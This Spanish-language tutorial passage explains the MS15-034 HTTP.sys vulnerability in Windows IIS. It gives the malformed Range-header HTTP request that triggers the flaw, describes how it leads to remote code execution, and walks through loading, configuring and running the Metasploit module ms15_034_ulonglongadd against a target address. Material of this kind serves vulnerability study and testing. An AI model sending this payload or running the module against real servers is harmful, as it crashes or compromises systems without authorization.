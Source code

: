 Por ejemplo:

```http
GET / HTTP/1.1
Host: servidor-objetivo
Range: bytes=0-18446744073709551615
```

2. **Corrupción de Memoria**: Cuando el controlador HTTP.sys procesa este encabezado `Range` malformado, se produce una corrupción de memoria, lo que lleva a desbordamientos de búfer u otros problemas relacionados con la memoria.

3. **Ejecución Remota de Código**: Gracias al desbordamiento de búfer, el atacante puede tomar el control del flujo de ejecución de la memoria. Esto permite ejecutar código arbitrario con privilegios SYSTEM.

4. **Compromiso del Sistema**: Una vez que el atacante obtiene privilegios de SYSTEM, puede instalar programas maliciosos, robar información sensible, manipular datos o continuar explotando el sistema.

### Impacto de la Vulnerabilidad

- **Ejecución Remota de Código**: El atacante puede tomar control completo del servidor afectado sin necesidad de autenticarse previamente.
- **Escalación de Privilegios**: Dado que **HTTP.sys** se ejecuta en modo kernel, explotar esta vulnerabilidad otorga privilegios de SYSTEM, el nivel más alto de privilegios en un sistema Windows.
- **Superficie de Ataque Amplia**: Cualquier sistema Windows que use IIS o servicios que utilicen **HTTP.sys** es vulnerable si acepta solicitudes HTTP.

### Uso del Módulo de Metasploit `auxiliary/dos/http/ms15_034_ulonglongadd`
Para aprovechar esta vulnerabilidad, Metasploit ofrece un módulo específico que puedes utilizar para probar la presencia de esta vulnerabilidad en un servidor. El módulo que debes usar es el siguiente:

```bash
use auxiliary/dos/http/ms15_034_ulonglongadd
```

### Configuración del Módulo
1. **Cargar el módulo**: Abre Metasploit y carga el módulo con el comando:

```bash
use auxiliary/dos/http/ms15_034_ulonglongadd
```

2. **Configurar la dirección IP del objetivo**: Una vez cargado, configura el objetivo con el siguiente comando:

```bash
set RHOST ip address
```

3. **Ejecutar el ataque**: Ejecuta el módulo para comprobar si el servidor es vulnerable:

```bash
run
```
